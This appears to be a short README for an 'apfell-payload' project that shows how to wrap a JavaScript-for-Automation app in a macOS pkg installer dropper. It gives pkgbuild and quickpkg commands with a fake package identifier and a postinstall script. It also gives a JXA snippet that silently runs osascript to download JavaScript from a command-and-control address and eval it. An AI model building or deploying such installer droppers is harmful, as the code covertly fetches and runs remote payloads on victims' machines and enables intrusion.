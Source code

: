 # apfell-payload
Making pkg installer payload from Javascript app


## Making the pkg payload
`pkgbuild --root ~/Documents/tech_infosec/apfell-testing/payloads/apfell_pkg_installer_dropper/ --scripts scripts --install-location /tmp --identifier my.fake.pkg my_package.pkg`


### Using this script to make pkg because pkgbuild is fickle
Script: https://github.com/scriptingosx/quickpkg

`python quickpkg --install-location /tmp --postinstall ./Scripts/postinstall.sh apfelljxa.app`


### Creating apfelljxa.app with Script Editor

Create apfelljxa.app with the following Javascript:

`var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("osascript -l JavaScript -e \"eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.0.108:80/api/v1.4/files/download/8e3e832d-ffc1-416a-8d77-f578759e0c69')), $.NSUTF8StringEncoding)));\" &>/dev/null &");`
